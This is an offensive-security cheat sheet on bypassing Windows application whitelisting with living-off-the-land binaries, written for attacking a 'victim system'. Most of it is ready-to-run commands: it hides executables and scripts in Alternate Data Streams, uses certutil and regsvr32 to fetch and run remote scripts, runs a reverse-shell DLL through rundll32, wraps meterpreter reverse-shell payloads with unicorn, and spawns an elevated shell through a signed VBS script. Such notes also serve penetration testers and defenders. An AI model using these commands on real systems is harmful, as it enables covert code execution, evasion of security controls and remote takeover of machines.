 # ⭕ Basic Tricks

## LOLBins

Using [LOLBins](https://lolbas-project.github.io/#) we can bypass some protections and execute malicious payloads.

{% embed url="https://lolbas-project.github.io" %}

{% hint style="info" %}
To search for a specific function in LOL binaries, use `/function` key word. for example : `/execute`
{% endhint %}

## Alternate Data Streams

Execute a .EXE file stored as an Alternate Data Stream (ADS)

```
wmic.exe process call create "c:\ads\file.txt:program.exe"
```

Download and save a PS1 file to an Alternate Data Stream (ADS).

```
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
```

Add content to an Alternate Data Stream (ADS).

```
cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.010/src/RegSvr32.sct ^scrobj.dll > fakefile.doc:payload.bat
```

Execute evil.dll which is stored in an Alternate Data Stream (ADS).

```
control.exe c:\windows\tasks\file.txt:evil.dll
```

Use cscript.exe to exectute a Visual Basic script stored in an Alternate Data Stream (ADS).

```
cscript c:\ads\file.txt:script.vbs
```

## Using DLLs & macros

We can create a DLL containing a Metasploit payload and then run it on the victim system via the rundll32.exe available in all versions of Windows. This is often available, even with SRP enabled, as it is located in C:\Windows and is not restricted by default in many SRP deployments. Scripts and macro payloads are also valuable. Macros especially tend to be allowed for complicated forms and other Office document functionality.

```
C:\> rundll32.exe reverse_shell.dll,Main
```

After we execute the command rundll32.exe CALC.dll,DoesntExist, our DLL will be loaded into memory, and our embedded Metasploit payload will be run through the initialization code. The DoesntExist parameter needs to be included, but it does not have to be a real function exported by the DLL

## Using Payload Wrappers

we can use various open source payload wrappers that add an extra layer to msfvenom payloads. not much of an FUD payload, but still effective.

{% embed url="https://github.com/trustedsec/unicorn" %}

for example with unicorn tool:

```
unicorn.py windows/meterpreter/reverse_tcp X.X.X.X 443 hta
```

or

```
python unicorn.py windows/meterpreter/reverse_https 192.168.5.5 443 dde
```

## System DLLs

we can use functions from system DLLs such as CMD screensaver.

```
C:\Windows> copy System32\cmd.exe Temp\cmd.scr
C:\Windows> rundll32.exe desk.cpl,InstallScreenSaver
```

## Multi-level Execution

By using multiple levels of execution, it could be possible to stumble into one that is explicitly allowed or has special privileges. Here we see cmd.exe running cscript.exe, which runs a VBS script included with Windows. This script can be abused to run other things. A great side effect of using this script: it is signed by Microsoft, and therefore often explicitly allowed to run. Then the PowerShell process is started, using a “- Verb RunAs” argument which attempts to re-establish “High Integrity” context, essentially giving an administrative user back their administration rights.

```
cmd.exe /c cscript.exe \windows\system32\SyncAppvPublishingServer.vbs ".;Start-Process rundll32.exe 'shell32.dll,ShellExec_runDLL cmd.exe' -Verb RunAs" 
```

we can do the same with powershell:

```
Powershell.exe -Command Set-ExecutionPolicy RemoteSigned -Scope Process; Powershell.exe -File "path to master script"
```
